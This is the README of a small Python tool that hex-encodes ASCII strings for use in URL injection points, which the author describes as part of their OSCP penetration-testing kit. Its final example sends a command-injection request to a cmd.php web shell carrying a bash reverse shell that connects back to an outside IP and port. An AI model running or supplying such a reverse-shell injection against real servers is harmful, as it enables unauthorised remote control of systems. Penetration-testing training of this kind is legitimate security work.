 # ascii2hex
Simple python code for convert ASCII string to HEX string

# how to run
That python code allow to convert ASCII string to hex in 2 type format, "%" or "\x", or other ones you need.
You can select the format by using -p flag and specefie the pattern.

# example
└─$ python3 ./ascii2hex.py -s '<? phpinfo() ?>'

%3c%3f%20%70%68%70%69%6e%66%6f%28%29%20%3f%3e

└─$ python3 ./ascii2hex.py -s '<? phpinfo() ?>' -p \\x

\x3c\x3f\x20\x70\x68\x70\x69\x6e\x66\x6f\x28\x29\x20\x3f\x3e

# tool note
this is part from my OSCP tools, the idea it so have the ability to run reverse shell from injection point over php file, since the url can't using space value we must convert each space to hex value, so that tool do that for us.
this tool is vulable since if we can inject code to some url and we need to insert more complicated request to the injection point (paramether) we can use ascii2hex:
```
curl "http://192.168.183.91/cmd.php?cmd=$(ascii2hex "/bin/bash -c 'bash -i >& /dev/tcp/10.0.0.1/443 0>&1'")"                                        
```
